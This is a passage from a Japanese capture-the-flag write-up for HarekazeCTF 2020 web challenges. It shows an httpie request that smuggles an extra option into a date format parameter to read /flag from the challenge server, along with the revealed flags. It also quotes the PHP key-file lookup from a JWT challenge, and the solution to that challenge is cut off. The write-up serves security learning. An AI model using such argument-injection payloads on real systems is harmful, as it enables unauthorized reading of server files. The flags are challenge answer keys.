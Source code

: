 ### 攻撃

```shell
$ http "http://harekaze2020.317de643c0ae425482fd.japaneast.aksapp.io/what-time-is-it-now/?format=' -f '/flag" | grep "HarekazeCTF"
          <h1 class="jumbotron-heading"><span class="text-muted">It's</span> date: invalid date 'HarekazeCTF{1t\'s_7pm_1n_t0ky0}'
```

### フラグ

`HarekazeCTF{1t's_7pm_1n_t0ky0}`

## [web] JWT is secure

210 pts, 19 solves

> 独自に作ったセッション機能は脆弱性を作り込みがちだということを学んだので、今回はJWT (JSON Web Token)を採用しました。
>
> http://harekaze2020.317de643c0ae425482fd.japaneast.aksapp.io/jwt-is-secure/

### 問題概要

- JWTで認証を行っているログイン可能なサービスが与えられる
- adminページにアクセスするとフラグが見られるが、adminにしか閲覧権限がない

### 解法

ソースコードを読むと次のことがわかります。

- algは'hs256', 'hs384', 'hs512' の3種類のみ
    - none攻撃のような典型手法はできそうにない
- adminかの判定はJWTのデータ部の`role`を見て判断している：
    - `$session->get('role') === 'admin'`
- JWTのヘッダの`kid`の値からハッシュ関数のキーに使うファイルを特定して、検証を行っている：
    ```php
    private function getSecretKey($kid) {
      $dir = $this->base_dir . '/' . $kid[0] . '/' . $kid[1];
      $path = $dir . '/' . $kid;

      // no path traversal, no stream wrapper
      if (preg_match('/\.\.|\/\/|:/', $kid)) {
        throw new Exception('Hacking attempt detected');
      }

      if (!file_exists($path) || !is_file($path)) {
        throw new Exception('Secret key not found');
      }

      return file_get_contents($path);
    }
    ```
    - `$this->base_dir`の値は`./keys`
    - なにやらpath traversalを防ごうとしている
- キーが置かれているファイルは、セッション開始時にパスが乱数で決定される：
    ```php
    private function setSecretKey($kid, $key) {
      $dir = $this->base_dir . '/' . $kid[0] . '/' . $kid[1];
      $path = $dir . '/' . $kid;


[^1]: この問題の本質ではないですが、fastify-formbodyは[qs](https://github.com/ljharb/qs)ではなくnodeのbuiltinである[querystring](https://nodejs.org/api/querystring.html)を使っているらしいです（ref. https://github.com/fastify/fastify-formbody/tree/v5.0.0#upgrading-from-4x ）。知らなかった。配列指定がいつもの`hoge[]=xxx`ではないので注意したい。